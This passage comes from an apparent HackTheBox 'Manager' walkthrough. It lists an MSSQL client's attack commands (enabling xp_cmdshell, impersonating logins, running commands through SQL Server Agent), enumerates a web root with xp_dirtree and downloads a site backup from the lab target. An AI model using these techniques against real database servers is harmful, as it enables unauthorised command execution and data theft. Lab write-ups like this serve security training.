 ```sh
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonate
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    show_query                 - show query
    mask_query                 - mask query

```

By using `xp_dirtree`, we can list files. Going to the web server root directory, we have the following files:

```sh
SQL (MANAGER\Operator  guest@msdb)> xp_dirtree /inetpub/wwwroot
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   

contact.html                          1      1   

css                                   1      0   

images                                1      0   

index.html                            1      1   

js                                    1      0   

service.html                          1      1   

web.config                            1      1   

website-backup-27-07-23-old.zip       1      1
```

Turns out there is a backup of the website accessible to download.

```sh
┌──(kali㉿kali)-[~/htb/manager]
└─$ curl http://10.10.11.236/website-backup-27-07-23.old.zip -o test.zip

┌──(kali㉿kali)-[~/htb/manager]
└─$ ls -la                                                              
total 1092
drwxr-xr-x 5 kali kali    4096 Oct 24 15:57 .
drwxr-xr-x 7 kali kali    4096 Oct 24 14:23 ..
-rw-r--r-- 1 kali kali     698 Jul 27 05:35 .old-conf.xml
-rw-r--r-- 1 kali kali    5386 Jul 27 05:32 about.html
-rw-r--r-- 1 kali kali    5317 Jul 27 05:32 contact.html
drwxr-xr-x 2 kali kali    4096 Oct 24 15:57 css
drwxr-xr-x 2 kali kali    4096 Oct 24 15:57 images
-rw-r--r-- 1 kali kali   18203 Jul 27 05:32 index.html
drwxr-xr-x 2 kali kali    4096 Oct 24 15:57 js
```